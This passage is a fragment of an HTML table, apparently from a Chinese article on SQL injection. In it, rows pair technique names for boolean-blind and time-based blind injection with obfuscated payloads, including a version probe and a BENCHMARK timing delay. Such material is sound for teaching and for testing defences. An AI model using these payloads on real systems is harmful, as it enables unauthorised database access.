 NULL,CONVERT(@@version,UMSIGNED),NULL</span></code></td></tr><tr style="color: rgb(53, 53, 53);background-attachment: scroll;background-clip: border-box;background-color: rgb(248, 248, 248);background-image: none;background-origin: padding-box;background-position-x: left;background-position-y: top;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">布尔盲注</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">函数嵌套+错误处理</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><code><span leaf="">IFNULL(1/EXP(LOG(IF(1=1,1,0))),0)</span></code></td></tr><tr style="color: rgb(53, 53, 53);background-attachment: scroll;background-clip: border-box;background-color: rgb(255, 255, 255);background-image: none;background-origin: padding-box;background-position-x: left;background-position-y: top;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">时间盲注</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">条件触发+系统函数</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><code><span leaf="">CASE WHEN 1=1 THEN BENCHMARK(1000000,MD5(&#39;a&#39;)) ELSE 0